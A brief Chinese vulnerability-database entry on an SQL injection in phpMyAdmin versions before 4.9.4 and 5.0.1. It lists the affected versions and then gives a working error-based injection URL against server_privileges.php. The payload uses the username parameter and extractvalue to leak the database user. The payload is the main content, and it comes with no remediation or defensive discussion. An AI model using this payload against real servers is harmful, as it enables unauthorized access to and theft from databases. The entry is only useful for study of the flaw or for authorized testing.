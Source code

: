 ```yaml
---
title: 'phpMyAdmin-SQL注入(CVE-2020-0554)'
date: Fri, 25 Sep 2020 07:23:11 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

phpMyAdmin 4 < 4.9.4 phpMyAdmin 5 < 5.0.1 已知一个用户名密码

### 漏洞利用

注入点为username，报错注入，语句格式如下```
http://**********/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server 
```